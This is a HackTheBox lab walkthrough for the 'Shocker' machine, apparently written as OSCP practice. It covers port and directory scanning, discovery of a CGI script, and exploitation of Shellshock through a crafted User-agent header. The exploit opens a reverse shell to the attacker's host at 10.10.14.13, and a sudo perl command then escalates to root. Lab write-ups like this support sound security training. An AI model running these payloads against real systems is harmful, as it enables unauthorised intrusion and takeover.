


*2021-10-02*

*kimm3*

# Walkthrough: Shocker
Platform: HackTheBox

Difficulty: Easy

- [Link](https://app.hackthebox.eu/machines/108)

This box is on TJ Null/NetSec Focus list for OSCP-like machines.
## Setup


```
script history/enum1
export IP=10.10.10.56; ping $IP
```
## Scans and enumeration
`sudo nmap $IP -p- -Pn -A -v -oA scans/nmap-init`


`sudo nmap $IP -p 80 --script vuln -oA scans/nmap-80-vuln`



```
ffuf -u http://$IP/FUZZ -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -of md -o scans/ffuf-indexdir.md

ffuf -u http://$IP/cgi-bin/FUZZ -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -of md -o scans/ffuf-cgidir.md

ffuf -u http://$IP/FUZZ -w sl/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -of md -o scans/ffuf-index-medium.md

ffuf -u http://$IP/FUZZ.php -w sl/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -of md -o scans/ffuf-index-mediumphp.md

ffuf -u http://$IP/FUZZ.sh -w sl/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -of md -o scans/ffuf-cgish.md
```
Did alot of fuzzing/enumeration with ffuf. Found a cgi-bin folder. Did searches for php and eventually sh files within the cgi-bin folder and got 'user.sh':




Since we have a shellscript inside a cgi-bin, this might be vulnerable to shellshock, depending on bash version. This vuln uses the fact that request headers are saved as env variables. We can use this to execute shell commands on the target.

Testing user.sh for shellshock vuln:

`curl -H "User-agent: () { :;}; echo ThisIsAVuln" http://$IP/cgi-bin/user.sh | grep ThisIsAVuln`


- [Reference](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock)
## Foothold/Exploit
We can use shellshock to get a shell.

`curl -H "User-agent: () { :;}; bash -i >& /dev/tcp/10.10.14.13/445 0>&1" http://$IP/cgi-bin/user.sh`


First try fail due to bash not being in path.

`curl -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.13/445 0>&1" http://$IP/cgi-bin/user.sh`


## Privilege Escalation


We can run perl with sudo privs, no password required. All we have to do is execute sh from within perl.

`sudo /usr/bin/perl -e 'exec "/bin/sh";'`


